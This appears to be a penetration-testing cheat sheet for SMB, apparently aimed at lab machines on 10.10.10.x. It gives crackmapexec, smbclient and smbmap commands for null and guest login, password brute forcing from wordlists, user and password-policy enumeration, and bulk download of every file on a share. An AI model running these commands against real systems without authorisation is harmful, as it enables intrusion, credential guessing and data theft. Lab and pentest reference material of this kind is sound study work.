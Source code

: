 # SMB
## Gaining Access
### Test for Null authentication
```bash
# Using crackmapexec
crackmapexec smb 10.10.10.219 -u '' -p '' --shares

# Using SmbClient
smbclient -N //10.10.10.219/kanban

# Using SmbMap
smbmap -u '' -p '' -H 10.10.10.172
```

### Test for anonymous/guest login
```bash
# Using Smbmap
smbmap -u anonymous -p anonymous -H 10.10.10.172
```

### Password Brute Forcing
```bash
crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
```

***
## Enumeration
```bash
# Enum users
crackmapexec smb 10.10.10.219 -u '' -p '' --users

# Enum Password Policy
crackmapexec smb 10.10.10.219 -u '' -p '' --pass-pol

# Enum files on share and their creation/modification dates
crackmapexec smb 10.10.10.219 -u '' -p '' -M spider_plus
```

***

## Exploitation
### Download all files from share
```bash
# Using smbclient
smbclient -N //10.10.10.219/kanban
recurse ON
prompt OFF
mget *
```